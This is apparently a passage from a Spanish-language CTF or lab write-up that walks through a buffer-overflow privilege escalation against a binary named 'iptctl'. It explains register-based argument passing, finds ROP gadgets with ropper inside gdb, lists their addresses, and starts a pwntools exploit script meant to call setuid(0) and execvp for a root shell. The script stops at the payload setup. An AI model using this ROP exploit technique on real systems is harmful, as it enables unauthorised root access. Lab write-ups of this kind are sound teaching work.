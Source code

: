 Si hay más de 6 argumentos, los restantes se pasan a través de la pila (stack).

**¿Por qué es crucial para nuestro Buffer Overflow?** Para explotar exitosamente el binario, no basta con saltar a las direcciones de `setuid` y `execvp`. Necesitamos controlar también **qué argumentos reciben estas funciones**.

Por ejemplo:

- Para `setuid(0)`, necesitamos que **RDI contenga el valor 0** (UID de root)
- Para `execvp("/bin/sh", args)`, necesitamos que **RDI apunte a la cadena "/bin/sh"** y **RSI apunte al array de argumentos**

Esto significa que en nuestra cadena ROP debemos incluir **gadgets** (pequeñas secuencias de instrucciones terminadas en `ret`) que nos permitan **poblar estos registros con los valores necesarios** antes de saltar a las funciones. Por ejemplo, necesitaremos encontrar gadgets como `pop rdi; ret` para cargar valores en RDI desde la pila, permitiéndonos así controlar completamente los argumentos de las funciones que queremos ejecutar con privilegios de root.

**Acción:** desde `gdb` vamos a obtener dos valores, para ello hacemos un breakpoint en la función main (el inicio) y  lo arrancamos.

```bash
b *main
r
shell ropper --file ./iptctl --search "pop rdi"
shell ropper --file ./iptctl --search "pop rsi"
```

**Resultado:** 

```bash
0x0000000000400de3: pop rdi; ret;

0x0000000000400de1: pop rsi; pop r15; ret; 
```

---

#### Script

Este script va aprovechar un Buffer Over Flow en el programa para aprovechar una función definida en su código fuente y obtener una shell con privilegios de root.

```bash
execvp(args[0],args);

# esta función es como hacer esto (aprovechar el setuid(0) para obtener una shell como root):

execvp("sh",0);
```


**Script:**

```python
#!/usr/bin/env python3

from pwn import *
import sys, signal

def def_handler(sig, frame):
    print(f"\n[!] Saliendo...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

if __name__ == '__main__':
    
    # ========== Configuración del Payload ==========
    offset = 29  # Bytes hasta sobrescribir RBP (obtenido con: pattern create 50 -> pattern offset)
    junk = b"allow" + b"A" * offset  # Acción válida + padding
```